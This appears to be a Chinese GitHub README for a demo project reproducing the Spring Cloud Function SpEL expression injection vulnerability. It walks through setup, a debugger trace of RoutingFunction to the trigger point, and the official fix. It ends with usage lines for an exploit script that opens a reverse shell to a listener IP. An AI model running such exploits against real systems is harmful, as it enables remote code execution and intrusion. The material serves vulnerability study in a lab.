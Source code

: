 # 关于项目

一个简单的SpringBoot Demo用于复现学习 [Spring Cloud Function SPEL表达式注入漏洞](https://www.anquanke.com/post/id/271221)

## 漏洞信息

### 漏洞名称

Spring Cloud Function SPEL表达式注入漏洞

### 漏洞描述

Spring框架为现代基于java的企业应用程序(在任何类型的部署平台上)提供了一个全面的编程和配置模型。

Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成Spel表达式注入，攻击者可通过该漏洞执行任意代码。

### 利用条件
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

### 环境搭建
在官方网页新建一个 Spring boot 项目(https://start.spring.io/)、使用idea启动。

### 修改 pom.xml 配置文件

编译项目成功后，启动 http://127.0.0.1:8080，出现 Whitelabel Error Page 页面表示成功。

### 漏洞分析（利用链跟踪）

一般步骤：
```
1. 搭建测试环境（可用IDE调试）
2. 验证触发漏洞的poc/exp  `spring_cloud_function_spel_poc.py`
3. 动态单步调试（通过IDE以Debug模式跟踪调试，观察参数变化）
```
[spring_cloud_function_spel_poc.py](/spring_cloud_function_spel_poc.py)

1.看官方的补丁，这个commit还是挺明显的。
- [spring-cloud-function官方修复记录](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f)

2.设置断点
进入springframework/cloud/function/context/config/RoutingFunction文件，在apply()方法入口处添加断点，然后IDEA开debug模式运行demo，再运行poc触发断点调试。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406095930.png)

可以看到headers中携带了构造的参数

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406100556.png)

前面的一些参数检查可以直接step over过，但要注意进入到springframework/cloud/function/context/config/RoutingFunction/functionFromExpression()方法。

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101032.png)

routingExpression 会做为参数传入到 springframework/expression/common/TemplateAwareExpressionParser/parseExpression()方法中。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101220.png)

判读其context是否为null，不为null再进入方法
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101541.png)

进入springframework/expression/spel/standard/SpelExpressionParser/doPareExpression() 会 new 一个 InternalSpelExpressionParser 类调用 doPareExpression() ，继续step into。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101818.png)

在springframeworl/expression/spel/stand/InternalSpelExpressionParser/doParseExpression()方法中、会在tokenizer.process()中 对token进行 源码与字节码的判断操作、继续向下。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406101954.png)

跟进到 springframwork/expression/spel/standard/SpelExpression/SpelExpression()，会new 一个SpelExpression()
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102343.png)

在SpelExpression()方法中会将将表达式赋值到 this.expression 继续跟进 return到 springframework/expression/spel/standard/SpelpressionParser/doParseExpression()、
继续return到springframework/expression/common/TemplateAwareExpressionPareser/pareExpression()、
return springframework/cloud/function/context/config/RoutingFunction/functionFromExpression()

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102659.png)

在functionFromExpression()方法中会进入MessageUtils.toCaseInsensitiveHeadersStructure()。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406102834.png)

继续step into到调用MessageStructureWithCaseInsensitiveHeaderKeys()，跟进到 putAll()方法，获取message中头信息。
![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406103046.png)

最终进入漏洞触发点，触发漏洞。

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406103854.png)

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed3/20220406104144.png)

## 问题解决
- [java: 错误: 无效的源发行版：15](https://blog.csdn.net/qq_42025798/article/details/113917231)

## REF

- [Spring Cloud Function SPEL表达式注入漏洞](https://www.anquanke.com/post/id/271221)
- [SpringCloud Function SpEL漏洞环境搭建+漏洞复现](https://www.anquanke.com/post/id/271167)
- [Spring-cloud-function-SpEL-RCE](https://github.com/chaosec2021/Spring-cloud-function-SpEL-RCE)


```
开始检测漏洞并反弹shell
## 检测漏洞
python3 Spel_RCE_POC.py url.txt
## 反弹shell
python3 Spel_RCE_Bash_EXP.py http://192.168.160.146:9000/ 192.168.160.241 7777
```

